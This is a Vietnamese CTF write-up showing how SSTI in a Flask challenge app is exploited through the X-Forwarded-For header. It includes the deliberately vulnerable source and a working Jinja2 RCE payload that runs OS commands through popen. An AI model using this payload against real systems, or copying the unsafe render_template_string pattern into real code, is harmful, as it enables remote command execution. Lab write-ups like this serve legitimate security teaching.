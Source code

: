 # SSTI

**Tên challenge:** I Known Your IP

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/i-known-your-ip)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Read the `/flag.txt`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta được cung cấp Source Code và giao diện Website khá đơn giản, chỉ có 1 dòng text như sau:

![alt text](./images/image.png)

=> Xem ra trang Web này sẽ show địa chỉ IP của ta.

**B2:** Ta thử đi sâu vào Source Code:
```
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():    
    try:
        client_ip = request.headers.getlist("X-Forwarded-For")[0].split(':')[0]
    except:
        client_ip = None
    if not client_ip:
        client_ip = request.remote_addr
    message = f"This page is being accessed from the remote address: {client_ip}"    
    return render_template_string(message)
    ## Fix Server Side Template Injection
    # message = "This page is being accessed from the remote address: {{client_ip}}"
    # return render_template_string(message, client_ip=client_ip)

if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=1337)
```
Nếu để ý thì ta sẽ phát hiện đoạn code trên bị lỗi SSTI. Nguyên do là vì ứng dụng lấy IP từ phía người dùng thông qua HTTP Header `X-Forwarded-For`, sau đó lại đem nó đi vào hàm Render mà không dùng bất kỳ filter nào

**B3:** Ta bắt lại gói tin và thêm trường Header `X-Forwarded-For: {{7*7}}` như sau:

![alt text](./images/image-1.png)

=> Ta có thể tạm thời kết luận là trang Web bị SSTI nhưng liệu ta có thể RCE thông qua loại lỗi này không thì vẫn chưa thể kết luận. Vì rất có thể Website chỉ cho phép những câu thử đơn giản và filter những payload liên quan đến RCE, và để củng cố thêm kết luận này ta sẽ thử đến payload có thể giúp ta thực thi command.

**B4:** Thử payload RCE `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}`

![alt text](./images/mage-2.png)

=> Vậy là kết quả `This page is being accessed from the remote address: root` đã kết luận rằng ta có thể RCE hệ thống thông qua lổ hổng SSTI và kế tiếp ta chỉ việc lấy flag thôi.

<u><b>Thông tin thêm:</b></u> Flag nằm ở thư mục `/`
